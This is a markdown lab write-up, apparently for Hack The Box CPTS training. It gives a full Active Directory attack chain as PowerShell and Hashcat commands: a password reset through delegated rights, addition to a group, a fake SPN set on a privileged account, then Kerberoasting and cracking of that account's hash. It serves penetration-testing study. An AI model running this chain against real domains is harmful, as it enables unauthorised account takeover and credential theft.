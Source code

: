 # 🧰 ACL Abuse: SPN Manipulation & Kerberoasting (HTB CPTS)

## 🌟 Objective

Use ACL abuse to perform a **Kerberoasting attack** by setting a fake SPN on the privileged user `adunn`, extracting the TGS, and cracking the password.

---

## 🧩 Steps Overview

1. Reset the password of a controlled user (`damundsen`) using `wley` (who has delegated rights).
    
2. Add `damundsen` to the **Help Desk Level 1** group.
    
3. Spawn a new shell as `damundsen` to refresh the token.
    
4. Use `damundsen`'s group-inherited rights to set a fake SPN on `adunn`.
    
5. Use **Rubeus** to Kerberoast the new SPN.
    
6. Crack the hash with **Hashcat**.
    

---

## 👨‍💻 Step-by-Step Execution

### 1. Set Credential for `wley` and create PSCredential and SecureString Objects

```powershell
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

---

### 2. Reset `damundsen`’s Password - Create SecureString Object using damundsen

```powershell
Import-Module .\PowerView.ps1
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

📅 `Password for user 'damundsen' successfully reset`

---

### 3. Log In as `damundsen` (New Token Required)

```powershell
runas /user:INLANEFREIGHT\damundsen powershell.exe
```

Then in the new shell:

```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
Import-Module .\PowerView.ps1
```

---

### 4. Add `damundsen` to Help Desk Level 1

```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

📅 Confirmed `damundsen` now part of the group.

---

### 5. Set Fake SPN on `adunn`

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

📅 Fake SPN successfully set on `adunn`

---

### 6. Kerberoast with Rubeus

```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```

📅 TGS Hash captured in `$krb5tgs$23$` format

---

### 7. Crack Hash with Hashcat

Save the hash to a file `adunn.hash`, then run:

```bash
hashcat -m 13100 adunn.hash /usr/share/wordlists/rockyou.txt
```

📅 Recovered `adunn`'s **cleartext password**

---

## 🔍 Notes & Tips

- SPNs can only be roasted if assigned to a user account.

- You must **refresh the user token** (log out, runas, or spawn new shell) to reflect new group rights.

- BloodHound helps verify ACL paths and delegations.
- This is a realistic privilege escalation chain using:
    - **Reset password** → **Add to group** → **Abuse new rights**

---

## 🔗 Tools Used

- `PowerView.ps1`
- `Set-DomainUserPassword`
- `Add-DomainGroupMember`
- `Set-DomainObject`
- `Rubeus.exe`
- `hashcat`

---

## ✅ Final Result

Successfully used ACL abuse to pivot from a low-privilege user to Kerberoast a privileged account, extract the TGS hash, and crack it to retrieve the **cleartext password of ************`adunn`**.